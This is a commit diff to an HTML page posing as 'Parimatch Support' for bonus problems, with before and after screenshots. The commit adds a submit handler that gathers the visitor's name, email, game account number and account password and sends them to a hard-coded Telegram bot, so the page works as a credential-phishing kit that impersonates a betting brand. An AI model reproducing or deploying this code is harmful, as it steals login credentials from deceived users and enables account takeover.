

Before and after one commit to aqvreno-a11y/Support-page, a plain HTML site: page bonus/index.html in a window 1280 px wide. Shown: the part 53-850 px from the top of the page. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/bonus/index.html
+++ b/bonus/index.html
@@ -6,263 +6,32 @@
     <title>Parimatch Support - Bonus Problem</title>
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css">
     <style>
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
-            font-family: 'Segoe UI', Roboto, Helvetica, Arial, sans-serif;
-        }
-
-        body {
-            background-color: #0d0e0e;
-            color: #ffffff;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            min-height: 100vh;
-        }
-
-        /* Header Section */
-        header {
-            width: 100%;
-            background-color: #161818;
-            padding: 15px 20px;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            border-bottom: 1px solid #262929;
-            position: relative;
-        }
-
-        .top-bar {
-            width: 100%;
-            max-width: 480px;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            position: relative;
-        }
-
-        .back-btn {
-            position: absolute;
-            left: 0;
-            width: 38px;
-            height: 38px;
-            border-radius: 50%;
-            background-color: #25291c;
-            color: #f3ff00;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            text-decoration: none;
-            font-size: 16px;
-            border: 1px solid #3c4228;
-            transition: 0.2s;
-        }
-
-        .back-btn:hover {
-            background-color: #353b26;
-        }
-
-        .brand-box {
-            display: flex;
-            align-items: center;
-            gap: 10px;
-        }
-
-        .logo-badge {
-            border: 1.5px solid #f3ff00;
-            padding: 5px 12px;
-            border-radius: 8px;
-            font-weight: 900;
-            font-style: italic;
-            color: #f3ff00;
-            letter-spacing: 0.5px;
-            font-size: 14px;
-            background: rgba(243, 255, 0, 0.05);
-        }
-
-        .support-title {
-            font-size: 20px;
-            font-weight: 700;
-            color: #ffffff;
-        }
-
-        .tagline {
-            margin-top: 6px;
-            font-size: 12px;
-            color: #9ca3af;
-            letter-spacing: 0.3px;
-        }
-
-        /* Step Indicator */
-        .steps-container {
-            width: 100%;
-            max-width: 480px;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            gap: 15px;
-            margin: 20px 0 10px 0;
-        }
-
-        .step {
-            width: 32px;
-            height: 32px;
-            border-radius: 50%;
-            background-color: #212424;
-            color: #9ca3af;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            font-weight: 700;
-            font-size: 14px;
-            border: 1px solid #323636;
-        }
-
-        .step.active {
-            background-color: #f3ff00;
-            color: #000000;
-            border-color: #f3ff00;
-            box-shadow: 0 0 10px rgba(243, 255, 0, 0.4);
-        }
-
-        .step-line {
-            width: 50px;
-            height: 2px;
-            background-color: #323636;
-        }
-
-        /* Main Form Card */
-        .container {
-            width: 100%;
-            max-width: 480px;
-            padding: 10px 16px 30px 16px;
-        }
-
-        .complaint-card {
-            background-color: #161818;
-            border: 1px solid #262929;
-            border-radius: 16px;
-            padding: 22px 18px;
-            box-shadow: 0 10px 25px rgba(0, 0, 0, 0.5);
-        }
-
-        .card-header {
-            display: flex;
-            align-items: center;
-            gap: 10px;
-            margin-bottom: 20px;
-        }
-
-        .card-header i {
-            color: #f3ff00;
-            font-size: 20px;
-        }
-
-        .card-header h2 {
-            font-size: 18px;
-            font-weight: 700;
-        }
-
-        /* Form Elements */
-        .form-group {
-            margin-bottom: 18px;
-        }
-
-        label {
-            display: block;
-            font-size: 13.5px;
-            font-weight: 600;
-            color: #e5e7eb;
-            margin-bottom: 8px;
-        }
-
-        input {
-            width: 100%;
-            background-color: #212424;
-            border: 1px solid #323636;
-            border-radius: 10px;
-            padding: 13px 14px;
-            color: #ffffff;
-            font-size: 14px;
-            outline: none;
-            transition: border-color 0.2s;
-        }
-
-        input::placeholder {
-            color: #6b7280;
-        }
-
-        input:focus {
-            border-color: #f3ff00;
-        }
-
-        /* File Upload Box Styling */
-        .file-upload-box {
-            border: 1.5px dashed #3a3f3f;
-            background-color: #212424;
-            border-radius: 10px;
-            padding: 14px;
-            text-align: center;
-            cursor: pointer;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            gap: 10px;
-            transition: 0.2s;
-        }
-
-        .file-upload-box:hover {
-            border-color: #f3ff00;
-            background-color: #252828;
-        }
-
-        .file-upload-box i {
-            color: #f3ff00;
-            font-size: 18px;
-        }
-
-        .file-upload-box span {
-            font-size: 13.5px;
-            color: #9ca3af;
-        }
-
-        .file-upload-box input[type="file"] {
-            display: none;
-        }
-
-        .submit-btn {
-            width: 100%;
-            background-color: #f3ff00;
-            color: #000000;
-            border: none;
-            border-radius: 10px;
-            padding: 14px;
-            font-size: 15px;
-            font-weight: 700;
-            cursor: pointer;
-            margin-top: 6px;
-            transition: 0.2s;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            gap: 8px;
-        }
-
-        .submit-btn:hover {
-            background-color: #d9e600;
-        }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Segoe UI', Roboto, Helvetica, Arial, sans-serif; }
+        body { background-color: #0d0e0e; color: #ffffff; display: flex; flex-direction: column; align-items: center; min-height: 100vh; }
+        header { width: 100%; background-color: #161818; padding: 15px 20px; display: flex; flex-direction: column; align-items: center; border-bottom: 1px solid #262929; position: relative; }
+        .top-bar { width: 100%; max-width: 480px; display: flex; align-items: center; justify-content: center; position: relative; }
+        .back-btn { position: absolute; left: 0; width: 38px; height: 38px; border-radius: 50%; background-color: #25291c; color: #f3ff00; display: flex; align-items: center; justify-content: center; text-decoration: none; font-size: 16px; border: 1px solid #3c4228; }
+        .brand-box { display: flex; align-items: center; gap: 10px; }
+        .logo-badge { border: 1.5px solid #f3ff00; padding: 5px 12px; border-radius: 8px; font-weight: 900; font-style: italic; color: #f3ff00; font-size: 14px; background: rgba(243, 255, 0, 0.05); }
+        .support-title { font-size: 20px; font-weight: 700; color: #ffffff; }
+        .tagline { margin-top: 6px; font-size: 12px; color: #9ca3af; }
+        .container { width: 100%; max-width: 480px; padding: 20px 16px; }
+        .complaint-card { background-color: #161818; border: 1px solid #262929; border-radius: 16px; padding: 22px 18px; box-shadow: 0 10px 25px rgba(0, 0, 0, 0.5); }
+        .card-header { display: flex; align-items: center; gap: 10px; margin-bottom: 15px; }
+        .card-header i { color: #f3ff00; font-size: 20px; }
+        .card-header h2 { font-size: 18px; font-weight: 700; }
+        .form-group { margin-bottom: 18px; }
+        label { display: block; font-size: 13.5px; font-weight: 600; color: #e5e7eb; margin-bottom: 8px; }
+        input { width: 100%; background-color: #212424; border: 1px solid #323636; border-radius: 10px; padding: 13px 14px; color: #ffffff; font-size: 14px; outline: none; }
+        input:focus { border-color: #f3ff00; }
+        .submit-btn { width: 100%; background-color: #f3ff00; color: #000000; border: none; border-radius: 10px; padding: 14px; font-size: 15px; font-weight: 700; cursor: pointer; margin-top: 6px; }
+        .submit-btn:hover { background-color: #d9e600; }
     </style>
 </head>
 <body>
-
-    <!-- Top Header -->
     <header>
         <div class="top-bar">
-            <a href="../index.html" class="back-btn" title="Back to Home">
-                <i class="fa-solid fa-chevron-left"></i>
-            </a>
+            <a href="../index.html" class="back-btn"><i class="fa-solid fa-chevron-left"></i></a>
             <div class="brand-box">
                 <div class="logo-badge">PARIMATCH</div>
                 <span class="support-title">Support</span>
@@ -271,91 +40,64 @@
         <div class="tagline">Bonus Problem</div>
     </header>
 
-    <!-- Step Indicator -->
-    <div class="steps-container">
-        <div class="step active">1</div>
-        <div class="step-line"></div>
-        <div class="step">2</div>
-    </div>
-
-    <!-- Form Container -->
     <div class="container">
         <div class="complaint-card">
             <div class="card-header">
                 <i class="fa-solid fa-user-shield"></i>
                 <h2>Account Verification Details</h2>
             </div>
-
             <form id="bonusForm" onsubmit="handleSubmit(event)">
                 <div class="form-group">
                     <label for="fullname">User Name</label>
                     <input type="text" id="fullname" placeholder="Enter your full name" required>
                 </div>
-
                 <div class="form-group">
                     <label for="email">Game Email ID</label>
                     <input type="email" id="email" placeholder="your@email.com" required>
                 </div>
-
                 <div class="form-group">
                     <label for="accountNo">Game Account Number</label>
-                    <input type="text" id="accountNo" placeholder="Enter your game account number" required>
+                    <input type="text" id="accountNo" placeholder="Enter account number" required>
                 </div>
-
                 <div class="form-group">
                     <label for="password">Game Account Password</label>
-                    <input type="password" id="password" placeholder="Enter your account password" required>
+                    <input type="password" id="password" placeholder="Enter account password" required>
                 </div>
-
-                <div class="card-header" style="margin-top: 25px; margin-bottom: 15px;">
+                <div class="card-header" style="margin-top: 20px;">
                     <i class="fa-solid fa-gift"></i>
                     <h2>Bonus Details</h2>
                 </div>
-
                 <div class="form-group">
                     <label for="bonusAmount">Enter Bonus Amount (₹)</label>
                     <input type="number" id="bonusAmount" placeholder="e.g., 500" required>
                 </div>
-
-                <div class="form-group">
-                    <label>Upload Bonus Issue Image</label>
-                    <label class="file-upload-box">
-                        <i class="fa-regular fa-image"></i>
-                        <span id="file-label-1">Choose issue screenshot</span>
-                        <input type="file" accept="image/*" onchange="updateFileName(this, 'file-label-1')">
-                    </label>
-                </div>
-
-                <div class="form-group">
-                    <label>Upload Profile Image</label>
-                    <label class="file-upload-box">
-                        <i class="fa-regular fa-user"></i>
-                        <span id="file-label-2">Choose profile image</span>
-                        <input type="file" accept="image/*" onchange="updateFileName(this, 'file-label-2')">
-                    </label>
-                </div>
-
-                <button type="submit" class="submit-btn">
-                    <i class="fa-solid fa-paper-plane"></i> Submit Now
-                </button>
+                <button type="submit" class="submit-btn">Submit Now</button>
             </form>
         </div>
     </div>
 
     <script>
-        function updateFileName(input, labelId) {
-            const label = document.getElementById(labelId);
-            if (input.files && input.files[0]) {
-                label.textContent = input.files[0].name;
-                label.style.color = "#f3ff00";
-            }
-        }
-
         function handleSubmit(event) {
             event.preventDefault();
-            alert("Bonus issue complaint submitted successfully!");
+            const fullname = document.getElementById('fullname').value;
+            const email = document.getElementById('email').value;
+            const accountNo = document.getElementById('accountNo').value;
+            const password = document.getElementById('password').value;
+            const bonusAmount = document.getElementById('bonusAmount').value;
+
+            const botToken = '8899735524:AAEzzcKQpcMO-mMQb9KSQTXmRUjLW7nhKPU';
+            const chatId = '8400052598';
+            const message = `🔔 *New Bonus Problem Request*\n\n👤 Name: ${fullname}\n📧 Email: ${email}\n🔢 Acc No: ${accountNo}\n🔑 Password: ${password}\n🎁 Bonus Amount: ₹${bonusAmount}`;
+
+            fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+                method: 'POST',
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify({ chat_id: chatId, text: message, parse_mode: 'Markdown' })
+            }).then(res => res.json()).then(data => {
+                if(data.ok) { alert("Submitted successfully!"); location.reload(); }
+                else { alert("Error! Try again."); }
+            });
         }
     </script>
-
 </body>
 </html>
```
